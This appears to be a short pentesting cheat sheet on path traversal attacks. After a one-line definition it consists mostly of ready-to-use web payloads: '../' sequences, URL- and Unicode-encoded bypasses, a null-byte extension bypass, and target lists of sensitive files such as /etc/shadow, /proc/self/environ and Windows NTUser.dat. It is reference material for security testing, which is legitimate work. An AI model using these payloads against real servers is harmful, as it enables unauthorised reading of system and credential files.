Path traversal
------------------------------------------------------------
A directory traversal (or path traversal) consists in exploiting insufficient security validation / sanitization of user-supplied input file names, such that characters representing "traverse to parent directory" are passed through to the file APIs.

Where to detect?
------------------------------------------------------------
Check dynamic URL: 
```
https://yevh.ye/img/loadImage?filename=ye.jpj
```

Check page elements:
```
<img src="/loadImage?filename=ye.jpj">
```

Basic checks:
```
..
../
..\
..../
....\/
....//
....\\
```

Encoding: 
```
..%c0%af
..%252f
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

Expected base folder:
```
/var/www/images/../../../etc/passwd
```
Expected file extension:
```
/var/www/images/../../../etc/passwd%00.jpj
```

Popular servers path:
```
/var/www/   - Apache
/etc/nginx/ - NGINX
```

Linux interesting files:
```
/etc/passwd
/etc/shadow
/proc/self/environ
/etc/mysql/my.cnf
/proc/net/route
```

Windows interesting files:
```
\windows\win.ini
\inetpub\logs\logfiles
\Users\Administrator\NTUser.dat
\Administrator\NTUser.dat
\apache\logs\access.log
\apache\logs\error.log
\apache\php\php.ini

```
References
------------------------------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/Directory_traversal_attack)  
[Owasp](https://www.owasp.org/index.php/Path_Traversal)
